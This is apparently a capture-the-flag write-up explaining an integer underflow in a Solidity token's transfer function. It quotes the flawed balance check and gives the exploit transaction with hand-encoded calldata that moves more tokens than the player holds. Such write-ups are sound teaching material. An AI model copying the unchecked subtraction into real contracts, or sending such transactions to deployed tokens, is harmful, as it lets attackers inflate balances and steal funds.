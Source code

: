 The issue here is an integer overflow. When checking whether the user has sufficient balance to make the transaction, i.e. in:
```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The calculation can underflow which will pass the check. This means if we try to transfer more money than we have available then we will succeed. Interestingly we have to set the _to to a *different* address to `msg.sender`, otherwise we underflow and then overflow, and arrive at our original value. For this I just used the address of the contract (`instance`)

```javascript
await sendTransaction({
    from: player, 
    to: instance, 
    data: "a9059cbb00000000000000000000000019e6044959099fcf5044746b0a18aa4ce6903efb0000000000000000000000000000000000000000000000000000000000000015"
})
```
Note that I had to specify raw data here because the function name `transfer` is special and is used by Web3 to transfer funds, which is not what I wanted. I generated the packed data with [https://abi.hashex.org/](https://abi.hashex.org/).
